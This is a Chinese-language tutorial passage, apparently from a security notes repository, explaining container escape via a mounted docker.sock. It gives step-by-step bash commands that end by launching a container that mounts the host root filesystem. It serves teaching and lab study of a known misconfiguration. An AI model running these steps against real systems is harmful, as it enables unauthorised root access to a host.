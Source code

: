     本质上而言，能够访问 docker socket 或连接 HTTPS API 的进程可以执行 Docker 服务能够运行的任意命令，以 root 权限运行的 Docker 服务通常可以访问整个主机系统。

    因此，当容器访问 docker socket 时，我们可通过与 docker daemonv 的通信对其进行恶意操纵完成逃逸。若容器A可以访问 docker socket，我们便可在其内部安装 client（docker），通过 docker.sock 与宿主机的 server（docker daemon）进行交互，运行并切换至不安全的容器 B，最终在容器 B 中控制宿主机。

- 相关文章
    - [挂载docker.sock导致容器逃逸](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-docker-sock)

1. 首先运行一个挂载 `/var/run/` 的容器
    ```bash
    docker pull ubuntu:18.04
    docker run -it -v /var/run/:/host/var/run/ ubuntu:18.04 /bin/bash
    ```

2. 寻找下挂载的 sock 文件
    ```bash
    find / -name docker.sock
    ```

3. 在容器内安装 Docker 作为 client
    ```bash
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" > /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-security main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-updates main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-proposed main restricted universe multiverse" >> /etc/apt/sources.list
    echo "deb-src http://mirrors.aliyun.com/ubuntu/ bionic-backports main restricted universe multiverse" >> /etc/apt/sources.list
    apt-get update
    apt-get install -y docker.io vim

    echo "nameserver 114.114.114.114" > /etc/resolv.conf
    ```

4. 查看宿主机 docker 信息
    ```bash
    docker -H unix:///host/var/run/docker.sock info
    ```

5. 运行一个新容器并挂载宿主机根路径
    ```bash
    docker -H unix:///host/var/run/docker.sock run -v /:/aa -it ubuntu:14.04 /bin/bash
    ```
